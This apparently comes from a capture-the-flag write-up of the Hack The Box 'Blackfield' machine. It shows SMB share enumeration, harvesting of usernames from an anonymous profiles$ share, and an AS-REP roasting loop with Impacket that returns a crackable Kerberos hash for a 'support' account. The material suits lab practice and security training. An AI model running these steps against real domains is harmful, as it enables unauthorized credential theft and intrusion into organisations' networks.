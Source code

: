 ```bash
SMB         BLACKFIELD.local 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)

```

```bash
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
[+] IP: 10.129.229.17:445       Name: blackfield.local          Status: Authenticated
Disk                                    Permissions     Comment
----                                    -----------     -------
        ADMIN$                          NO ACCESS       Remote Admin
        C$                              NO ACCESS       Default share
        forensic                        NO ACCESS       Forensic / Audit share.
        IPC$                            READ ONLY       Remote IPC
        NETLOGON                        NO ACCESS       Logon server share 
        profiles$                       READ ONLY
        SYSVOL                          NO ACCESS       Logon server share 
```

#### SMB Checks
```bash
└─$ smbclient -N //blackfield.local/profiles$  
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Jun  3 17:47:12 2020
  ..                                  D        0  Wed Jun  3 17:47:12 2020
  AAlleni                             D        0  Wed Jun  3 17:47:11 2020
  ABarteski                           D        0  Wed Jun  3 17:47:11 2020
  ABekesz                             D        0  Wed Jun  3 17:47:11 2020
  ABenzies                            D        0  Wed Jun  3 17:47:11 2020
  ABiemiller                          D        0  Wed Jun  3 17:47:11 2020
  AChampken                           D        0  Wed Jun  3 17:47:11 2020
  ACheretei                           D        0  Wed Jun  3 17:47:11 2020
 %SNIP%
```
Popped all 300 odd folders into a Username File

##### Checked Access 
```bash
for i in $(cat /home/kali/Desktop/HackTheBox/Boxes/NonComp/Hard/Blackfield/Loot/users.txt); do python3 /opt/dean-python-scripts/pyscripts/GetNPUsers.py -dc-ip 10.129.229.17 BLACKFIELD/$i -no-pass; done
```

This then provided a few useful accounts to look into

```
[*] Getting TGT for svc_backup
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for audit2020
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for support
$krb5asrep$23$support@BLACKFIELD:d7a3b568f5dbb679180701f56c073414$2ec2e0f213977a4a7272904383ef18e696ea31738eaa8a59402a382a6976ac36f3c5107acbae2e671bf4064e8603156aaff2555e0e28895a6f74642731a16b6afab890d44c43270b4d48f431a818dc9f8097a2c79e7235358c37cd0971764bc9513222be94e7ea9147dc1fa0ecb75143854921fa3fd2d9bc5c309d82291578f683bea086a6b44867227f59481e382f86062d16404d25d3f42b166bcf03f27b374c4e8d83ae936760bc49b94639815926083af79dfcdbd3efb25e83504a4657f642e3c694d700a314df9a8de57f55789e9ef4d01d42b083a8645843b8b2b35f7223ed45ee746eaf5adad17f5d40a3
```

